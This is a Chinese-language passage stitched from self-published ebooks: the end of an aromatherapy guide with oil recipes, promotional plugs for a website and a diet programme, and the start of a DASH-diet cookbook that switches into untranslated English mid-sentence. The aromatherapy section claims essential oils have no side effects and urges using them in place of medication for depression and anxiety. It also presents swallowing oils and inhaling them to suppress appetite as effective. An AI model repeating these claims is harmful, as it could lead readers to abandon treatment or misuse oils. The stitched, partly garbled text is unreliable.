你可能经历过用蒸汽疏通鼻塞，或为某些面部护理打开毛孔的过程。如果在蒸汽中加入精油再吸入香味会怎样？这种方法一定能提升你的大脑活动，并给你带来即时的镇静效果。你还会注意到，呼吸道问题会通过这种吸入方式得到解决。要以这种方式吸入香气，请在热水中加入几滴（通常五滴）精油，然后将毛巾盖在头上吸入蒸汽。放松并缓慢呼吸几分钟，就能得到疗愈。

虽然吸入香气的方法看起来是使用精油最简单的方式，但它也有自身的优缺点。这种方法虽然看似无害，但如果过量吸入香气，可能会导致头痛、身体疼痛和其他严重问题。此外，你的身体有时可能会对某些精油的香气产生负面反应。因此，请务必充分研究精油，并先吸入少量、稀释比例较低的精油，看看身体是否适应。

现在让我们来看看另一种使用精油的热门方法。

### 局部涂抹法

局部使用精油指的是精油的外部使用方式，你可以按摩精油或直接将其涂抹在皮肤上。不要误以为这种方法很简单，可以随意将任何精油、任何用量涂在皮肤上。正如我们在本书开头提到的，芳香疗法是一个受控的过程，你必须注意所用精油的用量和类型。因此，在局部涂抹精油之前，请务必遵循每种技术中提到的指导原则。

### 按摩

你无法否认按摩带来的放松效果。从外部渠道获得一次按摩总是感觉很棒，尤其是在疲惫的一天工作之后。


因此，你可以想象，如果用一种公认能带来更强镇静效果的精油进行按摩，你会获得多大的益处。所以下次你决定做身体按摩时，试着使用合适的精油，以获得巨大的生理和心理收益。

进行按摩时，你通常需要将精油与基础油混合，基础油通常是普通油，如杏仁油或乳木果油。一般来说，你会在30毫升基础油中加入约15滴精油。这种按摩最好的地方在于，你不需要专业人士的服务就能获得治疗效果。你可以自己按摩，也可以让心爱的人帮你按摩身体。

虽然这种方法总能让你平静下来、帮助你放松，但你必须确保精油适合你的皮肤。为安全起见，使用稀释过的油，并始终先在皮肤的一小块区域上测试。如果出现刺激、发红或疼痛，请彻底停止使用这种油。

## 敷布法

另一个使用精油的好方法是在温水中滴入几滴精油，然后将一块布浸入其中，敷在身体部位上。你可以将湿布敷在最需要缓解的部位。例如，要消除头痛，可将布敷在额头上；如果想缓解痛经，则可敷在腹部。

## 芳香浴

还有什么比在忙碌一天后，泡在充满你最喜爱香气的浴缸里更放松的呢？毫无疑问，这种方法会让你充满正能量，即使在办公室劳累一天后也能继续锻炼。疲劳会消失，你会立刻感到神清气爽、充满活力。

为了获得这些奇妙的好处，将几滴精油与基础油混合，在泡澡前加入浴缸中。同样，请确保测试这种混合物是否适合你的皮肤。

吸入法通过香气发挥作用，而局部涂抹法则是通过皮肤吸收精油来起作用。我们的皮肤允许精油分子渗透到体内，并通过血管到达器官。正是在这时，精油分子与器官相互作用，解决你的问题。然而，这种方法需要非常小心，并事先做好研究，因为每种油都有其自身的风险和问题。例如，有些油在阳光下可能很危险，使用这些油进行疗程后，你必须避免外出。同样，有些油可能对你的朋友有效，但对你却完全不起作用。因此，你必须始终了解所用精油的潜在危害以及自己的皮肤类型。

## 内服

精油的内服使用是指直接摄入精油。由于精油有时效力很强，除非有专业人士在场，否则不建议使用这种方法。内服需要很高的专业水平和芳香疗法知识，因此除非你咨询过专家，否则必须避免在家中自行尝试。

作为预防措施，应少量摄入稀释过的精油，因为大量精油往往不仅无法缓解问题，反而会损害身体。你还必须确保所用的油对你要治疗的疾病有效，因为并非所有油都能缓解你的头痛或抑郁。不过，提及这些预防措施并不是为了吓唬你。只要你在家使用之前咨询过治疗师，这种方法仍然很简单。

因此你看，使用精油的方式有很多种。每种方法都有自己的风险和注意事项，但它们对身体的好处永远不会穷尽。每种方法都会以不同的方式有益于你的心理、身体和心灵健康，并帮助你在短时间内克服疼痛和疾病。在这一点上，不要急于求成，不要在没有进一步研究的情况下就开始使用精油。为了了解最适合你问题的配方，请读完全书，我们将在书中告诉你一些神奇有效的芳香疗法配方。

## 第 3 章：为什么要使用精油

精油是大自然赐予人类的礼物。它们不仅对我们的身体，而且对我们的心灵和心理健康都有巨大的益处和优势。在上一章中，你已经学会了如何使用精油。现在是时候了解这些大有裨益的精油如何用于你的身心了。本章还将让你明白，为什么你应该始终优先选择精油而非任何其他疗法。

### 无副作用

在使用前，你可能首先想到的是精油的潜在副作用。你可能怀疑它的有效性，并担心会出现任何不良反应。与你以为的相反，精油没有任何副作用。你可以放心地将它们用于治疗疾病，不必担心身体受到伤害。虽然如果用量不加控制，精油可能会让身体不适，但这种不适总是暂时的，也不会带来痛苦。你最多只会感到头痛或头晕，但精油不会让你陷入任何危险的境地。

精油是纯天然的，因此不含任何可能以任何方式伤害你的化学物质。另一方面，人造药物很容易产生副作用，尤其是那些用于治疗抑郁、焦虑和其他精神疾病的药物。因此，与其选择可能伤害身体的药物，使用天然精油不是更安全吗？它们能给你同样甚至更好的缓解。

### 价格低廉

在任何健康问题面前，精油应成为你的首选，另一个原因是它们相对较低的成本。你可能会想，一瓶满载益处的精油会贵到你买不起。幸运的是，精油并非如此。一瓶你喜欢的精油在市场上很容易买到，价格也不贵，不会给你的预算带来任何负担。此外，如果你投资一瓶精油，请准备好享受这瓶精油至少五年的益处。由于治疗一种疾病只需要几滴精油，一瓶可以用很长时间。那么，它们不是比那些你用来治愈自己的昂贵药物更好吗？

### 缓解压力

无论你多么快乐和满足，压力永远不会离开你的生活。我们每个人都会在日常生活中因为一些小事而感到压力，这完全正常。然而，当压力持续存在，我们长时间无法摆脱时，问题就开始了。这时焦虑就会袭来，你会出现头痛、胃痛和恶心。大多数人会生气，或借助烟草和酒精暂时逃离焦虑的世界。如果你也经常感到压力且无法摆脱，就需要借助芳香疗法来获得即时缓解。

精油有能力消除你的压力和焦虑，让你能够愉快地完成所有工作，好好经营生活。使用某些精油，如薰衣草油，可以与大脑相互作用，在它因琐事而紧张时让它平静下来。因此，在你最喜欢的水疗中心预约一次服务，好好享受一次放松的精油按摩吧。按摩会立刻让你充满平和、宁静与和谐。你的压力会消失，你会感到更加专注于自己的任务和日常生活。

### 减肥

我们知道，在聚会上忍住不吃那些美味佳肴有多难；和爱人外出共进晚餐却只点沙拉这样不够丰盛的东西有多难。我们也理解，大清早迈开双腿在公园跑步，然后一天中其余时间在办公室里保持专注有多难。对于所有希望看起来苗条又精神的人来说，遵循严格的锻炼和饮食计划可能是一项极其困难的任务。对于各位吃货来说尤其如此，他们可能觉得很难控制自己频繁进食的冲动。你最终会经常吃自己最爱的汉堡，体重在几周内飙升。

这正是芳香疗法能对你极其有益的地方。它有能力帮助你控制进食欲望，因此你会发现自己的冲动会逐渐减少。闻一闻某些精油可以降低食欲，让你产生饱腹感。因此，你就不太容易被最喜欢的垃圾食品所诱惑，体重也能保持在可控范围内。另一方面，如果你在锻炼时容易疲劳，很少感到有动力去运动，那么吸入喜欢的精油的香气可以立刻让你充满能量，从而发挥最大潜能去锻炼。简而言之，如果你想塑造理想身材，就必须开始将精油融入日常生活。


## 其他益处

芳香疗法不仅仅用于缓解抑郁、焦虑或减肥。这种神奇的技术对你和你的身体都充满益处。除了在压力大的时候让你平静下来，这些精油还能帮助你睡个好觉，摆脱失眠。你只需吸入一种精油、泡一个你喜欢的香氛浴，或者做一次舒服的身体按摩，就能轻松做到这一点。这些方法每一种都非常舒缓，能让你在短时间内入睡。无论你夜里多么难以入眠，睡前一次好的按摩就能带你进入梦幻般的世界，帮助你进入安宁的睡眠。你会睡得更好，醒来时充满活力和动力，迎接新的一天。

芳香疗法还对健康有很多益处。它能改善你的血压，促进体内血液循环。吸入香气还能改善呼吸系统。肺部的问题将得到解决，你将能够正常呼吸。你还可以借助精油改善消化系统。吸入蒸汽或将精油直接涂抹在胃部，可以改善消化系统，增强肠道功能。

只有当你保持身体、心理和精神的健康时，你才能有效地减肥。因此，快来使用这些精油吧，并阅读下一章，了解直接和间接减肥的方法。

## 第 4 章：配方

既然你已经了解了精油的好处，是时候将理论付诸行动了。你现在已经掌握了足够的芳香疗法知识，因此可以在家中轻松尝试这些技术。在家进行芳香疗法并不是一项艰巨的任务；它只需要控制精油的使用量、对每种技术的充分了解以及意识到过度使用带来的风险。

这里有许多为你设计的配方，针对你的各种问题。这些配方最好的地方在于，它们也可以用于多个问题。例如，你为头痛调配的某个配方可能对治疗抑郁症也有效。同样，针对单一问题，你也会找到许多治疗配方。例如，仅针对焦虑，你可能会遇到10多种配方，还有几种针对血压的。无论你遵循哪种配方，都要确保其来源可靠，因为未经测试的配方可能对你要解决的问题无效。

下面是一些已知对下列各项问题有效的配方：

### 消除疲劳

即使在工作劳累一整天后，为了保持清爽，将6滴葡萄柚油、5滴玫瑰草油、4滴百里香油与15毫升任意基础油混合，并充分摇匀。用这种混合物进行按摩，你会看到它带来的惊人益处。你会立刻感到神清气爽、充满活力。

### 放松肌肉

如果你经常在运动后感到肌肉紧张酸痛，就有必要放松肌肉，以便继续锻炼。为此，将4滴薰衣草油、5滴绿花白千层油、3滴松树油和3滴黑胡椒油与15毫升你选择的基础油混合。稍微加热混合物，然后快速进行一次放松按摩。你也可以自己将油按摩在受影响的部位。只需确保将油充分涂抹在受影响的肌肉上，至少持续15分钟。

### 消除焦虑

有很多配方可以消除你的焦虑。你也可以选择通过多种方式使用精油。一个著名的缓解焦虑的配方是使用12滴薰衣草油和8滴快乐鼠尾草油，充分混合。按照说明将混合物加入香薰扩散器中，立即感受平静与安宁。另外，你也可以使用9滴薰衣草油和6滴快乐鼠尾草油，将混合物加入浴缸中，享受放松的沐浴。

### 摆脱抑郁

将4滴薰衣草油、4滴依兰依兰油和12滴葡萄柚油混合，制成复方油。将这种复方油放入香薰扩散器中使用，吸入香气，告别抑郁。如果你更喜欢按摩，可将这三种精油的用量减半，并加入1液量盎司基础油，享受放松按摩。

### 失眠配方

使用精油有助于你在晚上轻松入睡。你只需将一些精油滴在纸巾或棉球上，放在枕头下。持续吸入香气后，你便会入睡。

制作这个配方，你只需要5滴快乐鼠尾草油、5滴佛手柑油和10滴罗马洋甘菊油。将三种油充分混合，滴在一块布上，即可享受安稳的睡眠。

### 减肥配方

虽然以上所有配方都会间接帮助你减掉体内储存的多余脂肪，但这个特殊配方将直接帮助你控制体重。该配方将确保你的食欲得到控制，并且你不会在任何时候暴饮暴食。

制作此配方时，将30滴葡萄柚油、1滴依兰依兰油和4滴柠檬油与一茶匙粗海盐混合。将混合物装入深色瓶中，连续深吸三次，吸入香气。稍作休息，然后再吸入3次。再休息一下，最后重复一次该过程。

这是一个非常有效的配方，能在很大程度上帮助你抑制饥饿感。因此，下次去餐厅或参加聚会时，请随身携带这个吸入器。你也可以把吸入器放在办公桌上，在午休前吸入。

享受以上配方，过上更幸福的生活！

## 结论

再次感谢你下载这本书！

我希望这本书能帮助你了解精油是多么简单、愉悦和有效。

下一步是开始尝试这些不同的精油，体验它们带来的健康益处。

最后，如果你喜欢这本书，我想请你帮个忙，你愿意在亚马逊上为这本书留下评论吗？将不胜感激！

点击这里在亚马逊上为这本书留下评论！

谢谢，祝你好运！

## 额外福利：获取更多由我提供的免费视频和书籍！

感谢阅读我的书！我希望你从中获得了极好的价值。为了感谢你，我想给你更多免费的视频、书籍和与健康相关的信息！

只需点击下面的链接，在我的网站上输入你的电子邮件地址！

如果你真的想改变饮食和健康，你获得的所有内容都会对你有用。我将提供：

- 我写的更多书籍
- 制作特色菜肴的视频
- 关于我喜爱的健康产品的信息
- 以及更多！

点击这里获取所有这些信息！

嘿，我希望你喜欢我的书。我想给你更多价值，所以我想给你一些免费内容，以及我最近尝试的一种饮食的信息，它帮助我减掉了顽固的多余脂肪。

这个计划给了我一个策略，我用它减掉了顽固的多余脂肪，感觉自己年轻了10岁！

这个计划叫做“脂肪消除计划”（The Fat Diminisher）。这种饮食在帮助人们实现减肥目标方面取得了巨大成功。这个计划不仅能帮助你减掉多余脂肪，还能教你如何永久保持下去！

在短时间内减肥一直被认为是一项几乎不可能完成的任务。多年来，医生和营养师告诉公众，需要数月甚至数年的努力才能看到减肥的进展，或者塑造完美的体型。但这完全不是真的。

人体适应性很强，能够在极短的时间内发生变化。想想看。如果人们可以通过数周不健康的饮食迅速增加大量脂肪，那么他们难道不能通过数周健康的饮食迅速减去很多体重吗？当然可以。

但是你需要吃什么才能快速减肥？从低碳水化合物、低脂肪、无糖、高蛋白，甚至“穴居人”饮食——有这么多选择，普通人对于应该采用哪种饮食来快速减肥感到非常困惑。其中一些饮食甚至在应该吃什么、不应该吃什么的问题上提供了相互矛盾的信息。好了，这一切都将改变。

### 立即观看视频！

如果你还没有看过，一定要看看我的新网站 KindleBookSpot.com。这是我一直努力的一个新项目，我真的希望它对读者有价值。我创建这个网站是因为我想让你们更容易找到最热门的打折Kindle图书，而且都在一个地方。以下是我的网站提供的一些详细信息：

一系列最畅销的免费Kindle图书


折扣小说与非小说类图书

本周之书

精选图书

在我的网站上推广你自己的书

这个网站不仅面向读者，也是崭露头角的作者在成为畅销书作家之前推广新书的地方。所以，如果你想推广自己的书，请访问我的网站 [KindleBookSpot.com](KindleBookSpot.com)。

希望这个网站对你有用，也希望能在这里见到你！

*订阅我们在KindleBookSpot不断壮大的社区，以便在最佳图书打折和免费时收到通知。*

# 14天DASH饮食减肥法

*适合初学者的完整DASH饮食食谱计划*

*关于我最喜欢饮食的额外信息*

*还有更多免费和特价书籍，尽在 [KindleBookSpot.com](KindleBookSpot.com)*

## 目录

- 引言
- 第1章 – 概述：DASH饮食减肥解决方案
- 第2章 – DASH饮食基本指南
- 第3章 – DASH饮食及其特点
- 第4章 – DASH饮食早餐创意
- 第5章 – DASH饮食午餐创意
- 第6章 – DASH饮食晚餐创意
- 第7章 – DASH饮食零食创意
- 第8章 – DASH饮食甜点创意
- 第9章 – DASH饮食最终建议
- 结论

## 引言

现在是做出重大改变的时候了！过去几年，美国最佳的减肥饮食一直让许多人的生活变得健康快乐——DASH饮食。

DASH（Dietary Approaches to Stop Hypertension，阻止高血压的饮食疗法）是一种流行的饮食计划，最初旨在降低高血压，如今已被证明是一种促进减肥并带来长期效果的计划。随着脑功能增强和胆固醇水平降低，结果必定是积极的——降低患心脏病、中风，甚至肾脏疾病和糖尿病等的风险。

这个计划非常有效，像高血压这样的疾病最快可在两周内得到预防。此外，它还有助于减肥！这些结果得到科学研究的支持，并已被使用者证实。

毫无疑问，你对减肥感兴趣——这就是你关注这本书的原因。别担心，这本书能让你减肥并达成目标。采用DASH饮食，效果甚至更好，而且见效非常快。

市面上有许多饮食计划，但大多数无法提供可持续的结果，而且难以坚持。DASH则大不相同，因为它推崇的饮食计划实际上很容易遵循并融入日常生活。

本书将为你提供关于这个不可思议的饮食计划的正确知识：它如何运作、它的优势，以及大量美味食谱，这些食谱定能让你的饮食习惯提升到更高水平。阅读本指南后，你将更好地理解如何正确饮食并变得更健康。

接受减肥并保持健康生活方式的挑战。用DASH来做吧！

感谢你下载“14天DASH饮食减肥法——适合初学者的完整DASH饮食食谱计划”

希望你喜欢！

## 第 1 章 – 概述：DASH 饮食减肥解决方案

在开始之前，了解DASH计划究竟是什么，以及它与其余计划有何不同，至关重要。

### 什么是DASH饮食？

DASH代表“Dietary Approaches to Stop Hypertension（阻止高血压的饮食疗法）”。它基本上是一项由美国国立卫生研究院支持的饮食计划。提出这一计划是为了帮助控制和阻止全国的高血压。

这种饮食包含什么？嗯，采用这种饮食的人被鼓励多摄入水果和蔬菜，以及脱脂乳制品或低脂乳制品。鱼、禽肉、全谷物和坚果等也是允许的。然而，这种饮食限制以下内容：任何高脂肪食物、红肉、加糖食品和酒精饮料。

该计划的开发点燃了美国高血压患者的兴趣。因此，NIH让随机受试者接受测试，并资助了多家医院、研究机构和大学的研究，以确定这种饮食计划的可能性。结论是，DASH饮食可有效降低血压和其他心血管疾病。

由于这种饮食的核心主要在于正确的食物，它已经演变出不同版本。现在，有专门针对健康的DASH饮食、适合素食者的DASH饮食，以及一种特定的DASH饮食减肥计划，本书将重点介绍后者。

### DASH研究：起源

如前所述，DASH代表“Dietary Approaches to Stop Hypertension（阻止高血压的饮食疗法）”。它在美国已经发展了50多年。该国高血压病例数量不断上升，促使政府拨款开发这种饮食。

20世纪90年代，美国主要卫生机构和研究中心合作开展了关于DASH的最广泛研究。研究聚焦于人们可以在超市或杂货店买到的食物，使这种饮食易于坚持。

以下是DASH研究过程的简要一览：

基本上，该研究使用两个实验组和一个对照组进行，如下：

**第1组：** 这一组被称为“蔬菜和水果”组。该实验组被喂以更多蔬菜和水果，以及更少的零食和含糖食品。

**第2组：** 该实验组被指示摄入大量蔬菜和水果，以及乳制品（低脂）。这样，受试者可以摄入更多钾、镁和其他营养素。这种饮食也富含蛋白质，因为禽肉、坚果也受到大力鼓励。然而，禁止的食物包括加糖食品/饮料和红肉。

**对照组：** 该组被指示像典型美国人那样进食。基本上，这种饮食富含脂肪和蛋白质，但镁、钾和钙等其他矿物质含量低。

这项研究的结果是什么？

结论是：饮食习惯会对人产生影响，尤其是所有程度的高血压患者。研究中，第1组血压有所下降，但不如第2组显著。事实上，第二组中无高血压的个体也出现了血压下降。

### DASH钠

这项研究是在DASH研究成功后进行的。它旨在确定当饮食低盐时，DASH饮食是否能进一步降低血压。研究目的是研究低盐水平如何影响DASH饮食，以及这种饮食对各种钠摄入水平的反应。

研究的参与者包括采用普通美国饮食的人和采用DASH饮食的组。每组参与者被要求在不同盐水平下进行为期30天的饮食，包括：每天1500毫克、每天2400毫克和每天3000毫克。

结果是什么？

结果是：当盐水平降低时，对照组和DASH饮食组都出现了血压下降。然而，当盐摄入量降至每天1500毫克时，降幅最为显著。

基于这一结果，研究人员建议必须减少每日盐允许量。根据美国膳食指南，普通美国人每天应摄入2300毫克盐，而高血压患者每天只应摄入1500毫克。

### DASH饮食减肥法

尽管DASH饮食最初是为了帮助控制高血压而开发的，但研究也表明，它是一种支持减肥的极佳饮食计划。这种饮食促进减肥，同时促进内外健康。只需依赖大量天然食物，最快14天就能取得效果——无需挨饿！

这种饮食的重点是天然或真正的食物——这种饮食中没有防腐剂和添加剂的位置。它更侧重于水果和蔬菜，并搭配适量蛋白质。基于这样的原则，它被视为有史以来理想的减肥饮食计划。允许的餐食令人饱腹且美味可口。而且它是任何人都

can follow for a lifetime. It is more like a regular diet with massive benefits.

## 如何运作 – 第 1 阶段和第 2 阶段

The DASH diet is divided into two phases:

### 第一阶段

This is the first 14 days of the diet program. At this stage, the focus is on low carb, low sugar and high protein foods. Grains and fruits are temporarily not allowed at this point. The goal is to retune metabolism and to enhance the body’s natural ability to burn calories. This helps hasten weight loss.

### 第二阶段

This stage is when whole grains, vegetables rich in starch as well as fruits are reintroduced to boost the body’s ability to control hypertension and weight gain.

In the first phase, you will need to take in high amounts of protein like nuts, fish, lean meat etc. along with starch-free vegetables. This will prevent hunger, which may lead to over-snacking. Plus, it also stabilizes the sugar levels in the blood, lowering the need for insulin and leading to increased craving for healthier and lighter foods.

Going on DASH can make anyone fitter and healthier without having to go through harsh dieting. With this diet, you can actually enjoy the following:

- Three meals in a day with snacks in between – deprivation is not necessary.
- Enjoy healthy and filling vegetables in bulk while still maintaining low calorie consumption.
- Eat meat, the lean protein ones that are truly satisfying.
- Satisfy cravings with non-fat and low fat dairy products.
- Pacify your sweet cravings with fresh fruits.
- Snack on crunchy and tasty nuts and seeds that aid in weight loss and heart health.

And most of all, watch your weight drop and your health go up by following the DASH rules.

## 第 2 章 – DASH 饮食基本指南

DASH diet plan is very simple, making it easy to follow. It makes use of the usual foods, the ones that can be easily spotted in the grocery store. The diet is composed of plans composed of items from various food groups. The amount of servings really depends on the daily caloric requirements, which can be calculated based on the physical activity and age.

For this guide, the basis would be caloric needs ranging from 1600 to 2600 calories/day:

### 全谷物

**Ideal servings:** 6 to 8 a day

Whole grains serve as the foundation of the DASH program for weight loss. Such foods are rich in fiber and nutrients while being low in fat. However, you should only consume the “whole” grain variety or else the diet will not work. Ideally, you should only be eating natural and unrefined grains.

One of the common culprits in gaining weight despite consuming grains is adding spreads that are either heavy in dairy or sodium content. As much as possible, lessen fatty and salty additions to your grains.

**Examples:** 1 serving of grains include: ½ cup oatmeal/brown rice, a slice of whole wheat loaf, ½ cup whole grain noodles or pasta.

### 水果

**Ideal servings:** 4 to 5 a day

Though fruits are not part of DASH phase 1, they become a vital component in the second phase. Most fruits are low in fat, rich in fiber and other nutrients like magnesium and potassium, reducing the longing for sweet foods.

Fruits may be taken in several ways, but preferably fresh. So, a serving or 2 of fruits after a meal won’t hurt at all. It is also ideal to consume fruits with peel to maximize the fiber intake. Fruits in juice form are also acceptable as long as there is no sugar.

**Examples:** A serving is equivalent to half a cup of berries, ½ cup of fruit juice with no sugar or a medium sized apple or other fruits.

### 蔬菜

**Ideal servings:** 4 to 5 a day

You will be getting most of the essential nutrients through vegetables when on DASH diet for weight loss. The top choices are those rich in vitamins, fiber and nutrients like magnesium.

Don’t confine yourself to mainly Caesar salad or other vegetable side dishes. Also, don’t view vegetables as non-palatable as there are many vegetables that can actually become a major meal. Later in this book, you will learn easy to cook vegetable recipes that suit this diet. Just make sure to have the veggies medium cooked to bring out the distinct flavors.

**Examples:** Half a cup of cucumber or carrots will do as well as 1 cup of uncooked greens like lettuce.

### 蛋白质 – 鱼类和瘦肉

**Ideal servings:** 2 servings a day

Surely, meats contain loads of protein, vitamin B as well as iron. Yet, they are also high in cholesterol, fats and most of all, calories. Even if that’s the case, lean meat must be included in the diet.

But then, lean meats should not be the central focus of your meals like what you and most people are accustomed to. A great way to begin is make them an accessory while increasing vegetable intake. When possible, avoid fried meats and stick to cooking techniques that don’t use much fat like grilling, boiling etc.

**Examples:** fish and chicken, turkey and other poultry meat will do. 2 servings is equivalent to 3 ounces or about 3 matchbox-sized pieces.

### 乳制品

**Ideal servings:** 2 to 3 servings a day

Dairy may be banned in some diet plans, but not in DASH. In fact, dairy products like cheese, yoghurt, kefir and milk are recommended. These foods do not only help improve bone health and digestion, but also aid in preventing cancer.

In other programs, dairy is viewed as not good to the tummy and fatty as well. However, the above mentioned dairy products are either fat free or low in fat. Hence the amount of fat you will take in is the healthy variety. Low fat dairy also has low sodium and calorie content.

**Examples:** A serving of dairy is equivalent to a cup of yoghurt, milk or ¼ cup cheese.

### 豆类和坚果

**Ideal servings:** 4 to 5 servings a week

Legumes, nuts and various types of seeds are rich in protein, fiber and nutrients as well as fatty acids – omega-3. They also have a good amount of phytochemicals that help the body avert cardiovascular illnesses.

The best way to include such foods in the diet is to control the portion size. For instance, nuts are tasty and you may eat a handful without even noticing. Several handfuls of nuts are equivalent to a high amount of calories as well. A great way to trim down the calories is to pick the unsalted variety.

**Examples:** A serving is equivalent to half a cup cooked beans, 1/3 cup of nuts or 2 to 3 tablespoons of seeds.

### 糖 – 甜食

**Ideal servings:** 5 servings a day

The beautiful thing with DASH diet is that it does not deprive you from the simple pleasures of life. So, don’t forget about desserts since you are allowed with a bit of sweetness from time to time.

Though fresh fruits must be the center of your meals, dark chocolate is allowed since it is heart healthy. Other things that could pacify your cravings for sweets include desserts with high cocoa content, fruit sorbets and hard candies. You may also consume artificial sweeteners, but make sure to control the amount and don’t rely on it too much.

**Examples:** A serving is equivalent to a tablespoon of jam, ½ cup of iced fruit or sorbet, a cup of fruit drink like lemonade, 3 to 4 small squares of dark chocolate and 8 to 10 pieces of hard candies.

### 油脂和脂肪

**Ideal servings:** 2 to 3 a day

You should know that the right kind of fats can actually do good things more than harm. Healthy fats promote vitamin absorption, help strengthen the immune system and improve cardiovascular health.

It is highly advised to take in the unsaturated variety instead of trans and saturated fats that are both linked to obesity and heart diseases. For healthy fat consumption, limit your daily intake to as much as 6% and you are on your way.

**Examples:** A serving is equivalent to 1 spoon of mayonnaise or 2 spoons of salad dressing, 1 spoon of oil.

### 钠

**Ideal serving:** 1500 to 2300 mg a day

DASH diet is a bit stern when it comes to sodium. The focus is on the above mentioned foods with low sodium content. Although the DASH diet allows up to the standard, which is 2300 mg per day, it is better to stick to the lower limit. For the best guidance, it is recommended to talk to a doctor regarding your sodium allowance especially if you have a known cardiovascular condition.


## 第 3 章 – DASH 饮食及其特点

在DASH饮食中，无需忍受饥饿和剥夺——它只是一种更健康的饮食方式，让你获得长期健康益处。事实上，它并不是那种包含视频光盘或类似内容的节食计划。DASH饮食基本上是美国正确饮食的典范——这就是每个人都应该采用的吃法。

此外，这种饮食不仅鼓励健康的饮食习惯，符合该饮食要求的食谱还提供健康零食建议——这有助于每个人避免加工食品和垃圾食品。从整体来看，这种饮食并不仅针对高血压患者。DASH是一种通过降低盐摄入量、增加维生素、矿物质和必需营养素摄入来健康生活和饮食的全面方法。

为帮助你更好地了解这种饮食，快速看看它的特点：

### DASH富含纤维

这种饮食通过提倡多摄入蔬菜、水果以及各种全谷物，来推广高纤维摄入的生活方式。这样做能让你感到饱足，同时帮助身体对抗高血压。

此外，摄入更多纤维有助于调节血液中的血糖水平，这也能促进减重。

### DASH富含矿物质和维生素

身体所需的必要维生素和矿物质可以在蔬菜、水果以及全谷物中找到。基本上，天然完整的食物和未加工食物都富含良好营养。

此外，大多数水果和蔬菜含有大量钾和镁，非常有助于将血压调节到正常水平。

### 健康脂肪

吃好脂肪是DASH饮食的重点——这种饮食的目标是尽可能减少坏脂肪的摄入。脂肪主要分为两类：坏脂肪和好脂肪。垃圾食品或加工食品以及人造黄油和其他高脂产品中的饱和脂肪和反式脂肪被视为坏脂肪。

这类脂肪来源必须替换为优质脂肪来源，例如鲑鱼和金枪鱼等鱼类中的欧米伽-3脂肪酸、种子、坚果，以及零脂或低脂乳制品和家禽等瘦肉。

### 减少盐摄入

平均而言，美国人每日钠摄入限量为3500毫克。DASH饮食在盐摄入方面更为严格，因为研究证明减少盐摄入对降低高血压和减轻体重有显著效果。

采用DASH饮食时，个人每天允许摄入1500毫克至2300毫克盐。应遵循这一标准，才能收获这种饮食的奇妙益处。

### DASH对糖、咖啡因和酒精说“不”

如果你想成功采用DASH饮食，大多数时候需要戒掉糖。因此，忘掉过度沉迷于你最爱的汽水，或大嚼你爱从杂货店货架上拿的加工含糖零食吧。这种饮食关乎做出更健康、既能饱腹又令人满足的选择。

此外，这种饮食建议减少或完全戒除咖啡因和酒精，因为它们的营养价值较少或没有，并且含有大量糖分，可能诱发高血压、糖尿病等疾病。

### 热量和钠摄入

谈到DASH饮食，其实没有太多限制。原则简单，食物选择也很容易获得。任何采用这种饮食的人每天最多可摄入3100卡路里，或选择每天最低1500卡路里。

钠也是如此——可以选择每天摄入1500毫克盐，或选择每天2300毫克的较高量。当然，你每天需要摄入的钠和热量取决于以下某些因素：年龄、当前体重、身体活动量、是否存在高血压等疾病。

理想情况下，超重者应选择较低的钠和热量摄入，而体重处于正常水平的人则相反。若患有高血压，低盐饮食至关重要。为获得最佳建议，强烈建议咨询医生或营养师。

## 第 4 章 – DASH 饮食早餐创意

DASH提倡适量健康饮食。这不为不吃早餐提供任何借口。早餐让你为全天做好准备。本章将分享非常适合早餐的美味食物。

### 食谱1：西兰花奶酪煎蛋卷

可搭配一杯低脂或脱脂牛奶、一片全麦吐司，或你选择的蔬菜和水果一起食用。

**你需要：**

- 4个鸡蛋
- 1/3杯切达奶酪（低脂）
- 2至3杯西兰花小朵
- 1/3杯帕尔马干酪（磨碎）
- 1杯蛋清
- 少许盐和胡椒调味
- 1勺橄榄油

**制作方法：**

- 将西兰花小朵煮/蒸4至6分钟
- 将西兰花捣碎成小块，然后用胡椒和盐调味。
- 加热平底锅，撒入橄榄油。
- 将4个全蛋、1杯蛋清和帕尔马干酪混合。
- 将蛋液倒在西兰花上，并均匀淋入煎锅中。
- 撒上切达奶酪，两面翻煎。
- 煎2至3分钟即可享用。

### 食谱2：豆腐辣椒惊喜

在DASH饮食的第一阶段，你需要储备蛋白质。豆腐是极好的蛋白质来源，但与普通肉类不同，它要健康得多。

**你需要：**

- 500至600克特硬豆腐
- 2至3瓣蒜（切末）
- 1个大洋葱（切碎）
- 1个辣椒（波布拉诺辣椒），切碎并去籽
- 1杯切碎的番茄
- 1至2勺柠檬汁
- 少许干牛至、孜然和辣椒粉
- 少许盐
- 1勺橄榄油

**制作方法：**

- 用厨房纸巾将豆腐拍干，切成小方块，然后捏碎。
- 加热平底锅，淋上橄榄油。加入洋葱、大蒜和辣椒。
- 煮3至5分钟后加入香料。将捏碎的豆腐放入锅中，然后调低火力。
- 让其烹煮，并不时搅拌。关火前加入柠檬汁和番茄。尽情享用！

### 食谱3：简易DASH金枪鱼沙拉

这是一道快速且无需烹饪的DASH食谱，定能帮助你日复一日地减重。

**你需要：**

- 1罐水浸低盐金枪鱼
- 2勺低脂蛋黄酱
- 1个鸡蛋，煮熟后切丁
- 一把罗马生菜
- ½杯切碎的芹菜
- ½杯樱桃番茄
- 蔬菜丝：黄瓜或胡萝卜

**制作方法：**

- 在小碗中混合鸡蛋、金枪鱼和蛋黄酱。
- 在盘中摆好生菜、番茄和蔬菜丝。
- 将约¾杯金枪鱼混合物放在蔬菜上
- 撒上芹菜。尽情享用！

### 食谱4：健康法式吐司

此食谱使用全麦面包，最好搭配1杯低脂牛奶；如果可能，搭配脱脂牛奶，以增加蛋白质和营养。

**你需要：**

- 4片全麦面包
- ½杯低脂/脱脂牛奶
- 1个全蛋
- 1勺糖
- ½杯苹果泥
- 少许肉桂粉

**制作方法：**

- 在碗中混合鸡蛋、牛奶、苹果泥和肉桂粉。充分搅拌。
- 浸泡面包，确保蛋奶混合物被完全吸收。
- 用低脂黄油涂抹煎锅，将面包片煎至金黄色。
- 趁热享用！

### 食谱5：水果核桃煎饼

对于这款煎饼食谱，忘掉含糖糖浆吧——用香草脱脂酸奶代替。额外增加的蛋白质会让你整个上午都感到饱足。

**你需要：**

- 1根香蕉（捣碎）
- 3个蛋清
- 1杯面粉（全麦）
- 1杯脱脂牛奶
- 2勺核桃（切碎）


- 2茶匙泡打粉
- 2茶匙油
- 一小撮肉桂和盐

### 如何准备：
- 在碗中混合鸡蛋、香草、牛奶、油和香蕉，搅拌至顺滑。
